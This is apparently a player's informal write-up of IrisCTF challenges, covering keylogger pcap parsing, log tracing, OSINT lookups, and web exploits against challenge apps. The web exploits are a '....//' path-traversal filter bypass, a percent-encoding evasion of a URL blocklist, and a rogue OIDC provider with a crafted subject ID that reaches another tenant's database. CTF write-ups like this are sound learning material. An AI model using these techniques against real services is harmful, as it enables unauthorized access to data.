







i hunted with Untitled CTF Game last weekend and ended up in 34th place, which was Kinda awesome\
i mained web but also sniped some easy challs, which i will be yapping abt in this post

# Forensics
## deldeldel [50]
> I managed to log more than just keys... perhaps it was too much data to capture?

we're given klogger.pcapng that consists of numerous USB packets\
given they're keypresses from desc, i used [this repo](https://github.com/TeamRocketIst/ctf-usb-keyboard-parser/tree/master) to parse the keypresses:
```
Hey  Alice! I think  I'm supposed to give you is flag:

irisctfF{this_keylogger_isS_too_hard_to_use}
GABABCABBABBBCCCCCCCBCAAA?A?AABAAACCCA???????CA??BCBC??????
```
flag: `irisctf{this_keylogger_is_too_hard_to_use}`

## Tracem 1 [152]
> Here at EI Corp, ethics are our top priority! That's why our IT team was shocked when we got a knock from our ISP informing us that someone on our computer network was involved in some illegitimate activity. Who would do that? Don't they know that's illegal?
>
> Our ISP's knocking (and so is HR), and we need someone to hold accountable. Can you find out who committed this violation?

we're given the sent packets in a json format, the first thing we can analyze is the relevant websites\
getting every unique web reveals a suspiciously long URL:
```
...
mirror.co.uk
goo.ne.jp
copious-amounts-of-illicit-substances-marketplace.com
cnn.com
newyorker.com
...
```
hmm i wonder if this is illegal!\
tracing the source ip reveals to be 10.33.18.209. if we filter again by ip, we can find another suspiciously long line:
```json
{
    "host": "primary",
    "source": "udp:514",
    "sourcetype":"syslog",
    "_time": "2024-12-04 04:58:36.95",
    "data": {
        "_raw": "2024-12-04 04:58:35.622504||
        https://sso.evil-insurance.corp/idp/profile/SAML2/Redirect/SSO|
        /idp/profile/SAML2/Redirect/SSO|5b52053ac1ab1f4935a3d7d6c6aa4ff0|
        authn/MFA|10.33.18.209|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3 Edge/16.16299|
        https://sso.evil-insurance.corp/ns/profiles/saml2/sso/browser|
        llloyd||uid|service.evil-insurance.corp|https://sso.evil-insurance.corp/idp/sso| (...)"
    }
}
```
and if u look closely, we can see that the culprit was **llloyd**!

flag: `irisctf{llloyd}`

# OSINT
my rivalry with osint continues but i solved 2 . happy fortune
## Late Night Bite [50]
> Adam recorded an entry about his favorite hangout spot in his blog, but he hid it on purpose.
> 
> Question: Can you find where his favorite hangout spot is?
obviously it isn't going to be in plain sight, so my best guess is hidden in the source or in a text file\
which it was the latter, in `robots.txt`:
```
Sitemap: /sitemap.xml
```
where at the bottom reveals a page name same as the chall name:
```xml
<url>
    <loc>/late-night-bite/</loc>
    <lastmod>2025-01-02T00:00:00-08:00</lastmod>
</url>
```
lets take a look:
> Some nights, I enjoy walking out to this modern local **izakaya restaurant**. They close pretty late, which makes it perfect for a late night snack. What makes this place unique is their dedication to brewing their own teas and constantly experimenting with new dishes on the menu. I like to order their mocktail **Shiso Dry** as my drink. As for meal spicy tuna onigiri with a bowl of miso soup is enough for me.
> 
> I just want to show my appreciation and admiration for this place. But you guys will never find it! I regularly come here during the weekends.

searching keywords i bolded in quotes (and with enough bruteforce) reveals our solution:

flag: `irisctf{shirube}`

## where's bobby 2 [50]
> I took this picture while I was on a trip, somewhere, and I saw this beautiful wall art. However, in a shocking turn of events, I don't know where it was! Can you find it for me?
> 
> The flag is the coordinates of the building which contains this wall art, in decimal format and **correct to 3 decimal places**, and seperated by an underscore (_).


on the far right has a chinese text saying 百子图, searching with 地铁站 (underground station) we can find a wikipedia page:

wiki says coords of building are 39.891288, 116.491557, which after correcting gives our flag:

flag: `irisctf{39.891_116.492}`

side note: i thought i had to get the exact coords of the painting, and also forgot to round so i ended up with 70+ tries lol\
and there was a later hint to china's GCJ-02 coords system being different to WGS-84,\
but it turns out wikipedia was Right the whole time and that wasn't even needed. i got absolutely trolled

# Web
DUUDDEEEE i couldve solved webwebhookhook i have the exact solution but it was 2 am fml bro\
maybe this is why shouldnt dilly dally on other challs before i clear my category first T_T

## Password Manager [50]
inspecting main.go, our goal is clearly accessing /getpasswords, but we cant do that directly without login.\
at the very end we can see a hint to path traversal:
```go
var PathReplacer = strings.NewReplacer(
	"../", "",
)
// ...
func pages(w http.ResponseWriter, r *http.Request) {
	// You. Shall. Not. Path traverse!
	path := PathReplacer.Replace(r.URL.Path)

	if path == "/" {
		homepage(w, r)
		return
	}

    if path == "/login" {
		login(w, r)
		return
	}

	if path == "/getpasswords" {
		getpasswords(w, r)
		return
	}
    
	fullPath := "./pages" + path

	if _, err := os.Stat(fullPath); os.IsNotExist(err) {
		notfound(w, r)
		return
	}

	http.ServeFile(w, r, fullPath)
}
```
when our path doesnt match any specific path, it'll serve the filtered URL's page to us
however the filtering only replaces `../` with blank once!\
we can hit them with a `....//`, turning into `../`, arriving at directory index

weirdly enough the flag wasn't the un/pw stored in users.json, but in setup.sql instead:
```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS passwords ( URL text, Title text, Username text, Password text ) DEFAULT CHARSET=utf8mb4 DEFAULT COLLATE utf8mb4_0900_as_cs;
INSERT INTO passwords ( URL, Title, Username, Password ) VALUES ( "https://example.com", "Discord", "skat@skat.skat", "mypasswordisskat");
INSERT INTO passwords ( URL, Title, Username, Password ) VALUES ( "https://example.com", "RF-Quabber Forum", "skat", "irisctf{l00k5_l1k3_w3_h4v3_70_t34ch_sk47_h0w_70_r3m3mb3r_s7uff}");
INSERT INTO passwords ( URL, Title, Username, Password ) VALUES ( "https://2025.irisc.tf", "Iris CTF", "skat", "this-isnt-a-real-password");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.passwords TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

flag: `irisctf{l00k5_l1k3_w3_h4v3_70_t34ch_sk47_h0w_70_r3m3mb3r_s7uff}`

## Political [50]
we're given a token giver and a bot that visits our URL with admin cookie\
our goal is to POST to /redeem with a valid token, but every time we get a token it gets invalidated:
```py
from flask import Flask, request, send_file
import secrets

app = Flask(__name__)
FLAG = "irisctf{testflag}"
ADMIN = "redacted"

valid_tokens = {}

@app.route("/")
def index():
    return send_file("index.html")

@app.route("/giveflag")
def hello_world():
    if "token" not in request.args or "admin" not in request.cookies:
        return "Who are you?"

    token = request.args["token"]
    admin = request.cookies["admin"]
    if token not in valid_tokens or admin != ADMIN:
        return "Why are you?"

    valid_tokens[token] = True
    return "GG"

@app.route("/token")
def tok():
    token = secrets.token_hex(16)
    valid_tokens[token] = False
    return token

@app.route("/redeem", methods=["POST"])
def redeem():
    if "token" not in request.form:
        return "Give me token"

    token = request.form["token"]
    if token not in valid_tokens or valid_tokens[token] != True:
        return "Nice try."

    return FLAG
```
trying to send the bot to `/giveflag?token=abcd1234` for token validating won't work, bc there's a chrome policy in the way:
```json
{
	"URLBlocklist": ["*/giveflag", "*?token=*"]
}
```
we cant end our url in `/giveflag`, and we cant have `?token=` in anywhere either.\
i took a guess that these blocklist were only blocking exact strings, so i turned to percent encodings, which i was right!

flag: `irisctf{flag_blocked_by_admin}`

## Bad Todo [247]
firstly we're presented with an OIDC authentication:

i set up a flask server in colab:
```py
from flask import Flask, request, jsonify, redirect
from pyngrok import ngrok

app = Flask(__name__)
port = "5000"

public_url = ngrok.connect(port).public_url
print(f" * ngrok tunnel \"{public_url}\" -> \"http://127.0.0.1:{port}\" ")

REDIRECT_URI = "https://bad-todo-web.chal.irisc.tf/auth_redirect"
ISSUER = public_url

@app.route('/.well-known/openid-configuration')
def config():
    return jsonify({
        "issuer": ISSUER,
        "authorization_endpoint": f"{ISSUER}/auth",
        "token_endpoint": f"{ISSUER}/token",
        "userinfo_endpoint": f"{ISSUER}/userinfo",
    })

@app.route('/auth')
def auth():
    code = "la la la"
    return redirect(f"{REDIRECT_URI}?code={code}&state={request.args.get('state')}")

@app.route('/token', methods=['POST'])
def token():
    return jsonify({
        "access_token": "lololololol",
        "token_type": "Bearer",
    })

@app.route('/userinfo')
def userinfo():
     return jsonify({
        "sub": "abcdefg",
        "name": "hi kid",
        "email": "lostumbrella@example.com",
    })

if __name__ == "__main__":
    app.run(port=5000)
```

we're in! now to figure out what to do\
in prime_flag.js we can see our flag is in the 'flag' storage:
```js
import { promises as fs, existsSync } from "fs";
import { createClient } from "@libsql/client";

export async function primeFlag() {
    if (existsSync(process.env.STORAGE_LOCATION + "/flag")) {
        await fs.chmod(process.env.STORAGE_LOCATION + "/flag", 0o700);
        await fs.rm(process.env.STORAGE_LOCATION + "/flag");
    }
    
    const client = createClient({
        url: `file://${process.env.STORAGE_LOCATION}/flag`
    });

    await client.execute("CREATE TABLE todos(text TEXT NOT NULL, done BOOLEAN)");
    await client.execute("INSERT INTO todos(text, done) VALUES(?, ?)", [process.env.FLAG, true]);
    await client.close();

    await fs.chmod(process.env.STORAGE_LOCATION + "/flag", 0o400);
}
```
we can also see that our storage is in the same subdirectory:
```js
export async function initializeUserTodos(idp, sub) {
    const client = createClient({
        url: `file://${getStoragePath(idp, sub)}`
    });

    await client.execute("CREATE TABLE IF NOT EXISTS todos(text TEXT NOT NULL, done BOOLEAN)");
    await client.close();
}
```
which probably means we need to make getStoragePath return flag storage instead of ours\
let's check getStoragePath's implementation:
```js
export function sanitizePath(base) {
    const normalized = path.normalize(path.join(process.env.STORAGE_LOCATION, base));
    const relative = path.relative(process.env.STORAGE_LOCATION, normalized);
    if (relative.includes("..")) throw new Error("Path insane");

    const parent = path.dirname(normalized);
    mkdirSync(parent, { recursive: true });
    
    return normalized;
}

export function getStoragePath(idp, sub) {
    const first2 = sub.substring(0, 2);
    const rest = sub.substring(2);

    const path = `${sha256sum(idp)}/${encodeURIComponent(first2)}/${encodeURIComponent(rest)}`;
    return sanitizePath(path);
}
```
we can't control the sha256 sum of idp, but we can control sub to change the path!
setting sub to `ab../flag` however gets blocked by this line:
```js
    if (relative.includes("..")) throw new Error("Path insane");
```
what if we tried percent encoding w/ `ab%2e%2e/flag`?\
the answer is: no, bc `encodeURIComponent` encodes your percent sign again and the slash, both of which renders the path useless\
you can test the file links on chrome yourself and they won't work:
```
file:///C:/Users/user/Desktop/%252e%252e/
file:///C:/Users/bobo_/Desktop/..%2f
```
so what do we do then?\
recall that getStoragePath actually **splits sub into first 2 chars and rest of them, with / inbetween**, meaning we don't even have to put slashes ourselves\
and that **the path `../flag` gets normalized into `/flag` first**, which bypasses the `relative.includes("..")` after\
which means we just need to set our sub as **`..flag`**!

flag: `irisctf{per_tenant_databases_are_a_cool_concept_indeed}`